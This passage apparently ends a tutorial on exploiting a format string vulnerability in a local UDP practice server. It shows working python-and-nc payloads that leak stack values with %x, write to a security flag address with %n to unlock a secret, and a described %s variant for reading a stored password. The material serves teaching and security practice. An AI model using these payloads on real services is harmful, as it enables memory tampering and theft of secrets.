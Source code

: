 
To write to the security flag we will make the stack point to our string and we will replace the *aaaa* with the address of the security\_flag which is: **0804a088**.

```
➜  ~ python -c "print('\x08\x04\xa0\x88'+'%.8x.'*8+'')" | nc -u 127.0.0.1 9090
��000001f3.00000000.bfea5bd4.bfea57e8.b7614000.bfea5714.00000000.88a00408.
// wait this doesn't look good, it looks like our address is displayed in reverse, this has to do with endianness, let's reverse the address.

➜  ~ python -c "print('\x88\xa0\x04\x08'+'%.8x.'*8+'')" | nc -u 127.0.0.1 9090
�000001f3.00000000.bfea5bd4.bfea57e8.b7614000.bfea5714.00000000.0804a088.
```
All we have to do now is go back one address and write to it:

```
// It doesn't matter what value we write to the flag since the program only checks if flag is zero.
➜  ~ python -c "print('\x88\xa0\x04\x08'+'%.8x.'*7+'%n')" | nc -u 127.0.0.1 9090
�000001f3.00000000.bfa41914.bfa41528.b7552000.bfa41454.00000000.


// Nothing happens. But if we try to contact the server again:
➜  ~ nc -u 127.0.0.1 9090
hello
secret unlocked
how
secret unlocked
```


### Getting the password


In theory getting the password should work in the same way as switching the secret\_flag. Replace **%n** with **%s** and make sure that you’ve got address of the password in the beginning of the format buffer that you’re sending to the server.


That’s all! Thank you for reading and have a nice day!